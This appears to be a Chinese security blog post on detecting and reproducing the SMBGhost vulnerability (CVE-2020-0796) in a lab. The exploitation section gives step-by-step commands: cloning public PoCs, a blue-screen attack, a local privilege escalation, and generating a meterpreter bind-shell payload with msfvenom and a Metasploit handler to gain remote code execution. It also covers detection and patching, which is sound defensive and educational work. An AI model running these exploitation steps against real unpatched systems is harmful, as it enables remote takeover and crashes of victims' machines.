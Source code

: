 ```yaml
---
title: CVE-2020-0796 SMBv3 RCE漏洞检测+复现
date: 2020-06-09 20:11:40
categories: 
- 漏洞复现
tags: 
- 漏洞
- CVE-2020-0796
- RCE
- SMB
- POC
- 漏洞检测
---
```


## 漏洞简介
>2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，恶意伪造的压缩数据包 时出现的错误引发的，从而造成SMB服务器的缓冲区溢出,攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码。

### 概述 

>SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

<!--more-->

### 原理 

>漏洞存在于在srv2.sys驱动中，由于SMB没有正确处理压缩的数据包，在解压数据包的时候调用函数Srv2DecompressData处理压缩数据时候，对压缩数据头部压缩数据大小OriginalCompressedSegmentSize和其偏移Offset的没有检查其是否合法，导致其相加可分配较小的内存，后面调用SmbCompressionDecompress进行数据处理时候使用这片较小的内存可导致拷贝溢出或越界访问，而在执行本地程序的时候，可通过获取当前本地程序的token+0x40的偏移地址，通过发送压缩数据给SMB服务器，之后此偏移地址在解压缩数据时候拷贝的内核内存中，通过精心构造的内存布局在内核中修改token将权限提升。

### 影响范围

漏洞不影响 win7，漏洞影响 Windows 10 1903 之后的各个 32 位、64 位版 Windows，包括家用版、专业版、企业版、教育版。

> Windows 10 Version 1903 for 32-bit
> Windows 10 Version 1903 for x64
> Windows 10 Version 1903 for arm64
> Windows 10 Version 1909 for 32-bit
> Windows 10 Version 1909 for x64
> Windows 10 Version 1909 for arm64
> Windows Server 10 Version 1903 for server core installation
> Windows Server 10 Version 1909 for server core installation

## 环境准备

### 环境搭建

攻击机：Kali Linux
:    IP：192.168.219.135
可以 ping 通 win10 虚拟机

靶 机：Windows 10 虚拟机 1909 x64 (专业版）
:    IP：192.168.219.142
关闭防火墙和 defender
1903 或者 1909 版本均可，我这里用的是1909版本

宿主机：Windows 7


### 环境要求
首先确认系统版本符合要求
![](1.png)
使用systeminfo确定下主机有没有打过这个补丁KB4551762
![](2.png)
关闭防火墙和 defender
![](3.png)

## 漏洞检测

### git脚本检测

> https://github.com/ollypwn/SMBGhost

检测返回的数据包中SMB压缩版本，这种检测方式打过补丁依然会误报。
![](4.png)
*PS:脚本适用python3，宿主机电脑中只有python2，稍微修改一下print即可*


### 奇信安检测工具

>http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip

适用于局域网批量检测，快速查找未打补丁的机器。
![](5.png)

### 腾讯电脑管家SMB漏洞修复工具

>http://dlied6.qq.com/invc/QQPatch/QuickFix_SMB0796.exe

适用于个人用户检测，一键快速检测和修复。
![](6.png)

## 漏洞利用

### 蓝屏演示
蓝屏攻击POC:
>https://github.com/eerykitty/CVE-2020-0796-PoC

```
git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
python3 setup.py install
python3 CVE-2020-0796.py 192.168.219.142
```

安装脚本和依赖库
![](7.png)
依赖库安装成功后执行蓝屏攻击脚本
![](8.png)
攻击成功结果如下
![](9.png)

### 提权演示
本地提权POC:
>https://github.com/danigargu/CVE-2020-0796

文件编译结果执行文件有两个，一个动态的，一个静态的，动态的需要另外安装相关dll文件，我们直接执行静态提权程序，成功弹出更高的system权限命令执行窗口

![](10.png)

### RCE演示
远程利用POC:
>https://github.com/chompie1337/SMBGhost_RCE_PoC

-  Kali下载POC

```
root@kali:~/cve# git clone https://github.com/chompie1337/SMBGhost_RCE_PoC
root@kali:~/cve# cd SMBGhost_RCE_PoC
root@kali:~/cve/SMBGhost_RCE_PoC# ls
```

![](11.png)
*PS：该POC需要用python3环境执行*
-  使用msfvenom生成payload，生成TXT文件便于后面修改

```
root@kali:~/cve/SMBGhost_RCE_PoC# msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o 1.txt
```
![](12.png)
-  将1.txt 生成的code中参数buf改为USER_PAYLOAD，然后替换到exploit.py中的USER_PAYLOAD参数。（顺序不要颠倒，否则执行会失败的，因为你在py全文替换buf的话，不小心会把代码中的全部的buf替换的）

![](13.png)
这里不要忘记字符串前面的二进制格式换`b""`不然脚本执行错误
![](14.png)
-  新建一个终端，启动msf监听本地端口

```
root@kali:~# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > set rhost 192.168.219.142
rhost => 192.168.219.142
msf5 exploit(multi/handler) > exploit
```
![](15.png)
-  运行exploit.py

```python3 exploit.py -ip 192.168.219.142```
![](16.png)

一开始没反应，试了好几次，最后成功反弹shell（大家尝试的时候多试几次，看网上其他大佬说很容易蓝屏，蓝屏没有遇到，只是前几次每次执行后没反应，然后发现win10卡死了，ping不通，重启靶机即可）
![](17.png)

## 参考

[CVE-2020-0796 检测及利用工具](https://www.cnblogs.com/xiaozi/p/13062533.html)